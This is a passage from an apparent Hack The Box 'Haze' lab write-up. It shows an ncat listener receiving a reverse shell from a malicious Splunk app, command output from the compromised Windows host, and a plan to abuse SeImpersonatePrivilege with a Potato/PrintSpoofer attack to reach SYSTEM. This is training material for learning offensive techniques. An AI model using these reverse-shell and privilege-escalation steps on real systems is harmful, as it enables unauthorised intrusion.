 The `ncat` listener immediately caught the reverse shell.
```
fcoomans@kali:~/htb/haze/SplunkAppShell$ rlwrap ncat -lvnp 4444
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.61:51362.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
haze\alexander.green
PS C:\Windows\system32> ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.10.11.61
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
```

### Post Exploitation

Running `whoami /priv` shows that Alexander has `SeImpersonatePrivilege`.  
A 'Potato' attack, such as `PrintSpoofer`, can be used to exploit `SeImpersonatePrivilege` to impersonate a privileged account like `SYSTEM`.
```
PS C:\Windows\system32> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Splunk kept removing the App and dropping the reverse shell after a short period.  
This was annoying, but gave me enough time to Privilege Escalate to Administrator.
I just re-install the reverse shell App, when the reverse shell was dropped, which re-established the connection.

